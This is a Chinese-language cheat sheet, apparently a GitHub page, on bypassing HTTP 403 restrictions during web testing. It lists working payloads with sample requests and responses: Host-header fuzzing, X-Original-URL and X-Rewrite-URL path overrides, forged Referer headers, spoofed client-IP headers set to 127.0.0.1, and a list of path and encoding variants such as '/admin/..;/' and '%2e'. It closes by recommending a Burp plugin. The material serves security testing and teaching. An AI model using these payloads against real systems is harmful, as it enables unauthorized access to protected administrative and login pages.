# 403绕过技巧

### 1. 端口

全端口探测，访问其他可用端口

### 2. 修改host

在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。

而很多WEB应用通过获取HTTP HOST头来获得当前请求访问的位置，但是很多开发人员并未意识到HTTP HOST头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。

**利用：**

信息收集子域名，到bp爆破模块fuzz，变量为host头

### 3. 覆盖请求URL

使用**X-Original-URL**和**X-Rewrite-URL**标头绕过Web服务器的限制

**介绍：**

通过支持X-Original-URL和X-Rewrite-URL标头，用户可以使用X-Original-URL或X-Rewrite-URL HTTP请求标头**覆盖请求URL中的路径**，尝试绕过对更高级别的缓存和Web服务器的限制。

**利用：**

```host
  Request
  GET /auth/login HTTP/1.1
  Response
  HTTP/1.1 403 Forbidden
  ||	||	||	||	||	||
  ↓↓	↓↓	↓↓	↓↓	↓↓	↓↓
  Reqeust
  GET / HTTP/1.1
  X-Original-URL: /auth/login
  Response
  HTTP/1.1 200 OK 
or  
  Reqeust
  GET / HTTP/1.1
  X-Rewrite-URL: /auth/login
  Response
  HTTP/1.1 200 OK
```

### 4. referer标头绕过

尝试使用Referer标头绕过Web服务器的限制。

**介绍：**

Referer 请求头包含当前请求页面的来源页面的地址，服务端一般使用 Referer 识别访问来源

**利用：**

```host
    Request
    GET /auth/login HTTP/1.1
    Host: xxx
    Response
    HTTP/1.1 403 Forbidden
  	||	||	||	||	||	||
  	↓↓	↓↓	↓↓	↓↓	↓↓	↓↓
    Reqeust
    GET / HTTP/1.1
    Host: xxx
    ReFerer:https://xxx/auth/login
    Response
    HTTP/1.1 200 OK
or
    Reqeust
    GET /auth/login HTTP/1.1
    Host: xxx
    ReFerer:https://xxx/auth/login
    Response
    HTTP/1.1 200 OK
```

### 5. 代理IP

一般开发者会通过Nginx代理识别访问端IP限制对接口的访问，尝试使用 X-Forwarded-For、X-Forwared-Host等标头绕过Web服务器的限制。

```ip
- X-Originating-IP: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwared-Host: 127.0.0.1
- X-Host: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
```

**利用：**

```host
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK
```

### 6. 扩展名绕过

基于扩展名，用于绕过403受限制的目录。

```
site.com/admin => 403
site.com/admin/ => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200
```



**burp插件**

https://github.com/sting8k/BurpSuite_403Bypasser，自动扫描每个403请求

